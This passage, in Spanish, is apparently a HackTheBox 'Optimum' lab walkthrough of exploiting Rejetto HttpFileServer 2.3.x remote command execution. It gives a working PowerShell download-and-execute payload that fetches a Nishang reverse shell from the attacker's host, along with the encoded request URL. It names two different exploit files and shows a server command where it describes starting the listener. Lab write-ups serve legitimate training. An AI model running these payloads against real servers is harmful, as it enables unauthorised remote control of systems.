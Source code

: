 Para este caso, ocuparemos el archivo *windows/remote/49584.py*, por lo que procedemos a descargarlos a nuestra máquina y observamos su contenido.

```bash
❯ searchsploit -m windows/webapps/49125.py
  Exploit: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49125
     Path: /usr/share/exploitdb/exploits/windows/webapps/49125.py
File Type: UTF-8 Unicode text, with CRLF line terminators

Copied to: /home/kamiyo/Documentos/HTB/Optimum/exploits/49125.py
```

Dentro de los comentarios del script, observamos un ejemplo de uso:

```bash
python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"
```

En donde podemos observar que es necesario las variables *rhost*, *rport*; así como también es necesario compartir un servidor **HTTP** en nuestra máquina de atacante compartiendo un archivo *ps1* para obtener una reverse shell. Por lo tanto, primeramente es necesario identificar el archivo **Invoke-PowerShellTcp.ps1** (el cual debería estar en la ruta `/usr/share/nishang/Shells`); hacemos una copia de dicho archivo en nuestro espacio de trabajo y procedemos a editarlo agregando la siguiente linea hasta el final:

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <lhost> -Port <lport>
```

Ahora, compartimos un servidor HTTP con python en nuestro directorio en donde tenemos el archivo *ps1*:

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Por último nos ponemos en escucha a traves del puerto 443 (*lport*) y procedemos a ejecutar el exploit:

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [06/Sep/2021 22:35:19] "GET /PS.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [06/Sep/2021 22:35:19] "GET /PS.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [06/Sep/2021 22:35:19] "GET /PS.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [06/Sep/2021 22:35:19] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ python HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/PS.ps1')"
http://10.10.10.8:80/?search=%00{.+exec|c%3A%5Cwindows%5CSysNative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.10/PS.ps1%27%29.}
```
